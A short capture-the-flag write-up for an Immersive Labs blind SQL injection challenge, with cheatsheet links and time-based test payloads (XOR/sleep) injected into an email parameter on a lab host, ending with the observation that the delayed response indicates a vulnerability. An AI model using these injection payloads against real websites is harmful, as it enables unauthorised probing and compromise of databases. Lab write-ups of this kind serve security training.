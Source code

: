 ```yaml
---
date: 2025-02-07
categories: [CTF, ImmersiveLabs]
title: "IML - SQL Injection: Blind"
tags: ['http', 'sqli', 'exploit', 'rce', 'sql']

description: "SQL Injection Blind - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - SQL Injection: Blind

- Great Cheatsheets:
<https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet>

<https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/blob/main/MySQL%20-%20Time%20Based%20SQLi/README.md>

<https://ansar0047.medium.com/blind-sql-injection-detection-and-exploitation-cheatsheet-17995a98fed1>


![image1](../resources/39150bc6d9f84dfba5d6a1710f047711.png)

- Test for Time-Based Blind SQLi:

**'XOR(if(now()=sysdate(),sleep(5\*5),0))OR'**

`http:// 10.102.173.241/regards.php?email=stefan@immersivenews.co.uk%27XOR(if(now()=sysdate(),sleep(5*5),0))OR%27`

**'XOR(if(1=1,sleep(5\*5),0))OR'**

`http:// 10.102.173.241/regards.php?email=stefan@immersivenews.co.uk%20%27XOR(if(1=1,sleep(5*5),0))OR%27`

**'XOR(if(2=1,sleep(5\*5),0))OR'** \<--- This shouldn't work because the statement is false (2=1)

If the websites response is ~15 seconds, it means it is vulnerable to this kind of attack


![image2](../resources/30f64b8f60ff4b02b7df79daf3aa388d.png)

Website hangs for approx 15sec, so it's probably vulnerable
